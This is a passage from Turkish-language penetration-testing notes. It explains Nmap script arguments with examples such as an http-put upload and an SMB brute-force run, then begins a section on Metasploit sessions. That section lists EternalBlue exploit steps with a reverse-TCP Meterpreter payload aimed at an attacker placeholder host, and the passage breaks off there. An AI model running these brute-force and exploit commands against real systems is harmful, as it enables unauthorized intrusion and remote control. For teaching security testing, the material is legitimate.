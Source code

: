 🔹 http-trace.path=/test -> /test endpoint'inde HTTP TRACE yöntemi aktif mi kontrol eder.



### 📌 2. Birden Fazla Argüman Kullanımı
### 📌 Birden fazla argümanı , ile ayırarak ekleyebiliriz:
```bash
nmap --script <script_adı> --script-args "<arg1>=<değer1>,<arg2>=<değer2>" <hedef>
```
Örnek:
```bash
nmap --script http-put --script-args "http-put.url=/upload, http-put.file=dosya.txt" 192.168.1.1
```
🔹 http-put.url=/upload -> /upload dizinine dosya yüklemeye çalışır.
🔹 http-put.file=dosya.txt -> Yüklenecek dosya belirlenir.

### 📌 3. Önemli Scriptler ve Argümanları

### 📌 4. Kompleks Argüman Kullanımı
Bazı script argümanları liste (table) olarak da tanımlanabilir:
```bash
nmap --script http-headers --script-args "http-headers.paths={/index.html, /admin}"
```
🔹 http-headers.paths -> /index.html ve /admin sayfalarındaki HTTP başlıklarını analiz eder.
Başka bir örnek:
```bash
nmap --script smb-brute --script-args "userdb=users.txt, passdb=pass.txt, brute.delay=3s"
```
🔹 SMB brute-force saldırısında kullanıcı adı ve şifre listesi belirler, saldırılar arasında 3 saniye bekler.

### 🚀 Sonuç
### ✔ Nmap script argümanları, testleri daha detaylı yapmanıza olanak tanır.
✔ Dosya yükleme, brute-force saldırıları ve özel HTTP istekleri gibi işlemler için kullanılır.
✔ Özelleştirilmiş ve daha hassas taramalar yapmak için argümanlar gereklidir.







### 📌 Session Açmak (Oturum Yönetimi) – Pentest & Exploitation
### 📌 Session (oturum), bir sisteme yetkisiz erişim sağladıktan sonra hedef makine üzerinde komut çalıştırmak veya kontrolü ele almak için kullanılır.
📌 Genellikle Metasploit Framework (MSF), Meterpreter ve SSH gibi araçlarla yapılır.

### 📌 1. Meterpreter ile Session Açmak
### 📌 Bir hedef sisteme exploit uygulandıktan sonra Meterpreter oturumu açılır.
### 🛠️ Adım 1: Exploit Kullanımı (Örnek: EternalBlue)
```bash
use exploit/windows/smb/ms17_010_eternalblue
```
set RHOSTS <hedef_ip>
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <saldırgan_ip>
set LPORT 4444
exploit
🔹 Başarılı bir exploit sonrası bir Meterpreter oturumu açılır.
🔹 Session kontrolü için: